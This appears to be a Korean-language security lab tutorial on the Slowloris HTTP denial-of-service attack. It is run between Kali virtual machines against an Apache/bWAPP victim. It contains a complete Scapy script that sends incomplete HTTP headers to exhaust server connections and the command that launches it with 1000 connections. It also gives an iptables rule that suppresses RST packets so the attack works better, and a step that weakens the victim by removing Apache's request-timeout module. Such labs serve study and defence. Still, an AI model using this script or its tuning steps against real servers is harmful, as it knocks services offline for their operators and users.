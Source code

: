 
# Slowloris Attack

**Slowloris Attack** : 웹 서버의 다수의 커넥션 연결 후 각 커넥션 별로 비정상 HTTP헤더 (완료되지 않는 헤더)를 전송함으로써 웹 서버 단의 커넥션 자원을 고갈 시키는 공격

- HTTP Header 정보를 비정상적으로 조작하여 웹서버가 온전한 Header정보가 올때 까지 기다리도록 한다.

- 서버가 연결 상태를 유지할 수 있는 가용자원은 한계가 있으므로 임계치를 넘어가면 다른 정상적인 접근을 거부하게 된다.

<br>

## Slowloris Attack 공격 원리

1. HTTP에선 헤더의 끝을 /r/n 이라는 개행문자를 구분한다.
2. 공격자(Attacker)는 이 마지막 문자를 보내지 않고 지속적으로 의미없는 변수를 추가한다.
3. 서버는 헤더 정보가 아직 전송 중이라고 인식하고 연결을 유지한다.
4. timer가 만료되기전에 불완전한 HTTP 요청을 반복적으로 수행하면서 client connection의 최대 수용가능한 수까지 도달하여 서버의 connection 자원을 고갈시킨다.

<br>

## Slowloris Attack 공격 순서

**Step 1. Victim 가상머신에서 네트워크 상태를 모니터링**

```
┌──(kali㉿kali)-[/var/www/html/bWAPP]
└─$ watch "netstat -pant"  
```

![slowloris](https://user-images.githubusercontent.com/76420201/105925447-8ac3c480-6083-11eb-9d32-a8c568352850.gif)


- netstat [option]
    -p	: 해당 프로토콜을 사용하고 있는 프로그램을 표시
    -a	: 모든 연결 및 수신 대기 포트 표시
    -n	: 주소나 포트 형식을 숫자로 표현
    -t	: TCP로 연결된 포트를 표시

<br>

**Step 2. Attacker 에서 브라우저로 Victim의 아파치로 접속**

![slowloris0](https://user-images.githubusercontent.com/76420201/106067998-21a38600-6143-11eb-91ae-2e60f826c0fe.jpg)

|STATE| 의미|
|-|-|
|LISTEN 	|	서버의 데몬이 떠 있어서 클라이언트의 접속 요청을 기다리고 있는 상태 (LISTENING)|
|SYN_RECV | 서버가 클라이언트로부터 접속 요구SYN)를 받아 클라이언트에게 응답(SYN/ACK)를 보낸 상태|
|ESTABLISHED |	서버와 클라이언트 간에 세션 연결이 성립되어 통신이 이루어지고 있는 상태 |
|FIN_WAIT1|	클라이언트가 서버에게 연결을 끊고자 요청하는 상태|
|FIN_WAIT2|	서버가 클라이언트로부터 연결 종료 응답을 기다리는 상태|
|LAST_ACK |	호스트가 원격지 호스트의 연결 종료 요구 승인을 기다리는 상태 |
|TIME_WAIT|	연결이 종료되었지만 당분간 소켓을 열어 놓은 상태|

<br>

**Step 3. Attacker 가상머신에서 Slowloris.py를 생성**

```
┌──(kali㉿kali)-[~]
└─$ cd      
```

```
┌──(kali㉿kali)-[~]
└─$ code slowloris.py
```

- 파이썬 파일을 작성후 저장
```
# python3 slowloris.py TARGET_IP TARGET_PORT NO_OF_GETS
#                      공격대상웹서버주소 공격대상웹서버서비스포트 동시공격개수
# 파라미터의 개수를 확인
if len(sys.argv) != 4:
    print("Invalid Parameter")
    sys.exit(1)

# 입력 파라미터를 변수에 할당
target_ip = sys.argv[1]
target_port = int(sys.argv[2])
no_of_gets = int(sys.argv[3])

# IP 설정
ip = IP()
ip.dst = target_ip

# 동시공격회수에 맞춰서 3 way handshaking 및 완료되지 않은 HTTP 요청을 전송
for s in range(0, no_of_gets):
    tcp = TCP()
    tcp.dport = target_port                       # 연결 요청(SYN)
    tcp.sport = RandNum(1024, 65535)
    tcp.flags = 'S'

    syn = ip / tcp
    syn_ack = sr1(syn)                            # 연결 승락(SYN/ACK) 

    get = "GET / HTTP/1.1\r\nHost: " + target_ip  # 요청 헤더가 완료되지 않은 HTTP 요청
                                                  # GET / HTTP/1.1↳
                                                  # Host: 192.168.94.133   ⇐ 개행문자가 누락
    ack_get = ip                            \     # 연결 승락 확인(ACK) 및 요청(GET)을 전달
            / TCP(dport=target_port,        \     
                  sport=syn_ack[TCP].dport, \
                  flags="A",                \
                  seq=syn_ack[TCP].ack,     \
                  ack=syn_ack[TCP].seq+1)   \
            / get
    print(ack_get.summary())
    sr1(ack_get)
```

- 파이썬 파일 실행
```
┌──(kali㉿kali)-[~]
└─$ sudo python3 slowloris.py victim 80 1000
```

<br>

**Step 4. Victim 가상머신에서 패킷 정보, 웹 서버 상태 정보, 네트워크 상태 정보를 확인**

<br>

**Step 5. Victim 가상머신에서 Request Timeout 모듈을 제거 후 아파치를 재실행**

<br>

**Step 6. 다시 공격을 시도하면 해당 웹 페이지로 접속되지 않는 것을 확인**


---

```tip
공격이 원활히 진행되지 않는 경우 @Attacker 가상머신의 iptables 설정을 확인
효율적으로 공격이 진행될 수 있도록 RST 패킷이 외부로 전달되지 않도록 설정 

└─$ sudo iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
```
```
┌──(kali㉿kali)-[~]
└─$ sudo iptables -L

[sudo] password for kali: 
Chain INPUT (policy ACCEPT)
target     prot opt source              destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  --  anywhere             anywhere             tcp flags:RST/RST
                                          
```
